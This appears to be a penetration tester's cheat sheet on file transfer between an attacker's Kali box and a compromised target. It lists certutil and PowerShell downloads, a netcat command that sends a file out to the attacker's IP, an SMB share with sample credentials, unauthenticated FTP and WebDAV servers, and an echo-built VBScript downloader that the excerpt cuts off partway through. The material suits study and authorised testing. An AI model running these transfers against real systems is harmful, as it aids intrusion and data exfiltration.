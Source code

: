 ## File Transfer

### Python server
- From kali: `python3 -m http.server $port`
- From target Windows: 
	- powershell: `iwr -uri http://$kaliIP:$port/$file -o $file`
	- cmd: `certutil.exe -urlcache -split -f http://$kaliIP/$file C:\Windows\temp\$file
- From target Linux:
	- `wget http://$kali IP:$port/$file`

### nc
1. on target - `nc -w 3 $kaliIP 4444 < file.txt`
2. on kali - `nc -lvnp 4444 > file.txt`

### SMB
- From kali: 
	- `sudo impacket-smbserver -smb2support $shareName $sharedDirectory -username "$kaliUser" -password "$kaliPass"`
- From target:  
	- `net use m: \\$kaliIP\$shareName /user:$kaliUser $kaliPass
	- `copy/get $file m:\
- Example:
1. on kali - `sudo impacket-smbserver -smb2support share . -username "pop" -password "party1"`
2. on target - `net use \\$kaliIP\share /user:pop party1`
3. on target - `copy $file \\$kaliIP\share`

### Over RDP
- `xfreerdp /u:admin /p:password /v:$target /drive:/$directoryToShare,$nameToShare /dynamic-resolution`
- `xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/.`


### SSH/SCP
`scp -P $sshPort $file $user@$targetIP:$destFolder`

### FTP
- From Kali: `python -m pyftpdlib -p 21 --write` (to provide write access)
- From windows: `ftp $kaliPass` (anonymous:anonymous)

### wsgidav
`wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $directoryToShare
- host specifies the host to listen to, "0.0.0.0" means all interaces, "--auth=anonymous" disables authentication (fine for sharing specific files during this context), and the "--root" flag specifies the directory to share. 

### .vbs file
Downloads a file from a self hosted web server:

	echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
	echo  Err.Clear >> wget.vbs 
	echo  Set http = Nothing >> wget.vbs 
	echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 